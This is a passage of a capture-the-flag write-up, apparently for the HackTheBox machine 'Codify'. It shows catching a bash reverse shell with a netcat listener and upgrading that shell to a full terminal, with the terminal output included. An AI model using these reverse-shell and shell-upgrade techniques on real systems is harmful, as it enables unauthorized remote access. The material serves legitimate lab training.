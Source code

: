 

It is the same as the previous one, though it returns `[object Object]`.
Changing it to `ping` works here as well.

### Shell

I'll update my payload to a simple [bash reverse
shell](https://www.youtube.com/watch?v=OjkVep2EIlw), and start `nc`
listening on the same port:

![](/img/image-20240404092743068.png)

On sending the code, the site hangs, but there's a connection at `nc`
with a shell as the svc user:



    oxdf@hacky$ nc -lvnp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.239 35468
    bash: cannot set terminal process group (1264): Inappropriate ioctl for device
    bash: no job control in this shell
    svc@codify:~$ 



I'll upgrade my shell using the [standard
trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):



    svc@codify:~$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, output log file is '/dev/null'.
    svc@codify:~$ ^Z
    [1]+  Stopped                 nc -lvnp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lvnp 443
                reset
    svc@codify:~$

